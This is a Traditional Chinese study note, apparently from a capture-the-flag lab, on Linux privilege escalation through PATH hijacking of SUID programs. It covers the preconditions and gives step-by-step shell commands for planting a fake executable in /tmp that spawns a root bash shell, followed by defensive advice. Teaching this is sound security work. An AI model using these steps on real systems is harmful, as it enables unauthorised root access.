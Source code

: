 # 🛠 Linux 權限提升技巧：PATH 劫持攻擊（PATH Hijacking）

## 📘 基本概念

- **PATH** 是 Linux 的環境變數，定義系統搜尋可執行檔的資料夾路徑順序。
- 當執行命令且未使用絕對路徑時，系統會依照 PATH 變數的資料夾順序尋找對應可執行檔。
- 若 PATH 中包含使用者可寫入的資料夾，攻擊者可放置惡意可執行檔。
- 當含有 SUID 權限的程式執行並呼叫該程式名稱時，會執行惡意檔案，導致提權。
- **攻擊重點在於：**
  - 利用 SUID 程式中未使用絕對路徑呼叫指令（如 `system("cp file1 file2")`）。
  - 將惡意的同名程式（如 `cp`、`ls`）放在攻擊者可控制的目錄中。
  - 修改 `PATH` 變數，讓系統優先從含惡意檔案的目錄尋找指令。
  - 執行 SUID 程式時，會以 root 權限執行惡意指令，達成權限提升。


---

## 🎯 攻擊條件

1. 存在 SUID 程式，呼叫外部程式時未使用絕對路徑。
2. PATH 中有使用者可寫入的資料夾，且位置優先於系統目錄。
3. 攻擊者能在可寫資料夾建立同名惡意檔案。

---

## 攻擊步驟

### 1. 檢查關鍵檔案
- 查看 PATH 內容
  ```bash
  echo $PATH
  ```

- 找出系統中可寫資料夾（排除 /proc）
  ```bash
  find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
  ```

### 2. 新增 path
- 若 /tmp 不在 PATH 中，加入 /tmp
  ```bash
  export PATH=/tmp:$PATH
  ```


### 3. 在 /tmp 建立惡意執行檔（命名為目標程式呼叫的名稱）
  ```bash
  echo '/bin/bash' > /tmp/thm
  chmod 777 /tmp/thm
  ```


### 4. 執行 SUID 程式（例如 ./path）
./path



## 🛡 防禦建議
- SUID 程式呼叫外部程式時使用絕對路徑。
- PATH 不應包含非系統資料夾或使用者可寫入路徑。
- 定期掃描 SUID 程式，審核可疑行為。
- 限制使用者寫入系統環境變數及重要目錄權限。

## 📌 小結
- PATH 劫持透過修改 PATH 中可寫入資料夾放置惡意執行檔，配合 SUID 程式可達成提權。
- 常見於 SUID 程式未使用絕對路徑呼叫外部程式。
- 防範以嚴格控制 PATH 與程式呼叫方式為主。